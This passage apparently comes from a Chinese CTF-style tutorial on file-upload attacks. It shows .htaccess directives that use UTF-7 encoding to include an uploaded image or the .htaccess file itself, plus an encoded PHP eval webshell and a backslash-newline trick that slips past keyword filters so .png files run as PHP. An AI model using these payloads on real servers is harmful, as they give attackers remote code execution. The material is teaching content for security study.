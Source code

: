 然后我们使用 auto_append_file 将其包含进来并设置编码格式为 UTF-7 就行了：

```php
php_value auto_append_file images.png
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

当然，也可以使用 php://filer 伪协议进行 UTF-7 与 UTF-8 之间的转换，即：

```bash
php_value auto_append_file "php://filter/read=convert.iconv.utf-7.utf-8/resource=images.png"
```

![img](文件上传.assets/1681146124365-90ac0648-7bf1-46a8-8be1-6368b9e75781.png)

也可以使用 .htaccess 自身包含来执行 Webshell，这样就不需要再上传一个 images.png 了：

```php
php_value auto_append_file .htaccess
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# +ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```

同理，除了使用 UTF-7 外，UTF-16、UTF-32 都可以使用，方法都是一样的。

### 绕过关键字过滤

绕过对关键字的过滤我们可以使用反斜杠 \ 加换行来实现。比如题目过滤了 type、php 等敏感字符，此时为了利用 .htaccess 解析图片马，我们需要将 .htaccess 写成这样：

```php
AddTy\
pe application/x-httpd-ph\
p .png

# 即: AddType application/x-httpd-php .png
```
